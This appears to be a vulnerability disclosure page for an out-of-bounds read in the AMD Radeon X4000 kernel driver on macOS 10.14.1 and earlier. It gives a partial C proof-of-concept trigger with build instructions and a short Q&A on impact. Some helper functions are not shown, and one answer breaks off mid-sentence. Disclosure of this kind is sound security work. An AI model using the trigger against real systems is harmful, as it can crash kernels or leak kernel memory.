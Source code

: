 ```c
    AMDRadeon X4000 s_new_resource OOB read
    usage : clang poc.c -framework IOKit -o poc && ./poc
*/
int main(int argc, char **argv)
{
    kern_return_t err;

    io_connect_t conn = get_user_client("AMDRadeonX4000_AMDGraphicsAccelerator", 6);
    set_params(conn);
    kern_return_t ret = make_iokit_call();

    printf("IOReturn : %#x\n", ret);

    return 0;
}
```





## Q & A

### How did you find this vulnerability?

by fuzzing.



### Can you identify exploitability?

This is a **Out-of-Bound read** vulnerability. It can crash the kernel or leak kernel heap memory. Attacker may craft a struct and use this vulnerability to copy more data from input heap to the newly created buffer than expected. When the newly created buffer contains



### Can you identify root cause?

Yes, see the root cause analysis.



### Vulnerable software and hardware

macOS 10.14.1 and all before  with an **AMDRadeon X4000 Series Graphics Card Driver**



  [Back Home]({{site.url}}{{site.baseurl}})